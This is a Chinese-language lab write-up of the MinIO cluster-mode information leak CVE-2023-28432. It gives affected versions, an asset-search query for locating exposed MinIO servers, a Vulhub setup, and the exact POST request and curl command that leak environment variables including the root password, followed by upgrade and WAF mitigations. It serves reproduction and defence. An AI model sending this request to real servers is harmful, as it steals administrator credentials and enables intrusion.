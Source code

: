 # MinIO 集群模式信息泄露漏洞 CVE-2023-28432

## 漏洞描述

MinIO是一个开源对象存储系统。

在其`RELEASE.2023-03-20T20-16-18Z`版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码`MINIO_SECRET_KEY`和`MINIO_ROOT_PASSWORD`。

参考链接：

- https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q
- https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ

## 漏洞影响

```
MinIO <= RELEASE.2023-03-20T20-16-18Z
```

## 网络测绘

```
app="minio"
```

## 环境搭建

Vulhub执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```
docker-compose up -d
```

集群启动后，访问`http://your-ip:9001`可以查看Web管理页面，访问`http://your-ip:9000`是API服务。

![image-20230504102151673](images/image-20230504102151673.png)

## 漏洞复现

这个漏洞存在于API节点`http://your-ip:9000/minio/bootstrap/v1/verify`上，发送如下数据包即可查看泄露的环境变量：

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image-20230504102419760](images/image-20230504102419760.png)

也可以直接 curl：

```
curl -XPOST http://your-ip:9000/minio/bootstrap/v1/verify
```

可见，其中包含`MINIO_ROOT_USER (accessKey)`和`MINIO_ROOT_PASSWORD (secretKey)`。使用这个账号密码，即可成功登录管理后台：

```
MINIO_ROOT_USER		minioadmin
MINIO_ROOT_PASSWORD	minioadmin-vulhub
```

![image-20230504102729716](images/image-20230504102729716.png)

## 漏洞修复

目前官方已发布安全修复版本，受影响用户可以升级到RELEASE.2023-03-20T20-16-18Z 及以上版本。

https://github.com/minio/minio/releases/tag/RELEASE.2023-03-20T20-16-18Z

临时修复方案，在 waf/ips 等安全产品上配置策略，拒绝所有 post 到 `/minio/bootstrap/v1/verify` 流量。
